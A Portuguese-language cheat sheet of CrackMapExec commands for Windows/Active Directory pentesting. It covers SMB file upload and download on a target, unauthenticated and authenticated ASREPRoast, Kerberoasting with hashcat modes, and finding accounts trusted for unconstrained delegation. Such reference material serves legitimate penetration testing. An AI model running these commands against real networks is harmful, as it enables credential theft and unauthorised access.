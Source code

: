 ## cme - insira um arquivo
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Envie um arquivo local para um alvo remoto

```bash
cme smb <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## cme - obter um file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Obtêm um arquivo remoto e o salva localmente

```bash
cme smb <ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

## cme - enumeração de ASREPRoast sem autenticação
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

O usuario pode ser uma wordlist também (user.txt)
Formato do hashcat: hashcat -m 18200 

```bash
cme ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## cme - enumeração de ASREPRoast com autenticação
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## cme - Kerberoasting
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

Formato do hashcat: hashcat -m 13100

```bash
cme ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## cme -  Delegação irrestrita - (Unconstrained delegation)
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

Lista todos os computadores e usuarios com a flag "TRUSTED_FOR_DELEGATION"

```bash
cme ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```

